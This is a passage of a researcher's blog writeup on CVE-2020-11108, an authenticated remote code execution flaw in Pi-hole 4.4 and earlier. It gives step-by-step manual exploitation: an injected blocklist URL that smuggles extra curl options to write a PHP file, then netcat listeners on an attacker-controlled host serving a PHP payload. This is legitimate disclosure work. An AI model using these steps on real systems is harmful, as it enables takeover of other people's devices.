 ```yaml
---
title: "CVE-2020-11108: How I Stumbled into a Pi-hole RCE+LPE"
date: 2020-05-10T00:16:40-06:00
description: Writeup for CVE-2020-11108 covering how I found the vulnerability and how it can be exploited for fun/profit.
link: cve-2020-11108-pihole-rce
image: https://frichetten.com/images/thumbs/cve-2020-11108-pihole-rce
type: "blog"
---
```

<p>The following is a technical writeup for CVE-2020-11108, a vulnerability that allows an authenticated user of the Pi-hole web application to gain remote code execution and escalate privileges to root. This vulnerability affects Pi-hole v4.4 and below. It was an exciting find in an open source project that I have used for years.</p>

<p>All vulnerabilities were found by manually reviewing the source code. Note, there are technically two paths to gain remote code execution, however they are similar and rely on the same vulnerable function call.</p>

<p>This article is split into two parts. The first being a quick summary as to how these vulnerabilities can be exploited. The second being a writeup on their discovery and technical analysis.</p>

<p>Full PoC exploits are available <a href="https://github.com/frichetten/CVE-2020-11108-PoC">here</a>.</p>

<h3>Manual Steps to Exploit</h3>

<p><b>Reliable RCE:</b> This exploit does not rely on any special conditions aside from being authenticated to the web application and is functional with the default install of Pi-hole.</p>

<p><b>Step 1:</b> Navigate to Settings > Blocklists</p>

<p><b>Step 2:</b> Disable all existing block lists (speeds things up), then enter the following payload as a new URL.</p>

<center><code>http://192.168.122.1#" -o fun.php -d "</code></center><br>

<p>Where the IP address is an address you control. Note that the <code>#</code> character is required and the space after <code>-d</code> is also required. Once entered you can click Save.</p>

<p><b>Step 3:</b> Set up a netcat listener on port 80 (The payload can be modified to support other ports, however some backend parsing of the ':' character make this more of an annoyance than is worth changing)</p>

<p><b>Step 4:</b> Click "Save and Update"

<p><b>Step 5:</b> After a few seconds you will receive a GET request. Provide a 200 response (this is required), hit enter, enter anything (just to provide some data), hit enter twice more and then Ctrl+c.</p>

<center><img src="/images/blog/cve-2020-11108-pihole-rce/1.png" /></center><br>

<p><b>Step 6:</b> Set up another netcat listener on port 80 and click "Update" to update Gravity a second time. This time you should see ".domains" in the response. This is indicative you have performed the exploit correctly up to this point. Hit enter, and then paste whatever PHP payload you’d like. A shell function call works very nicely. Then hit Ctrl+c to kill netcat.</p>
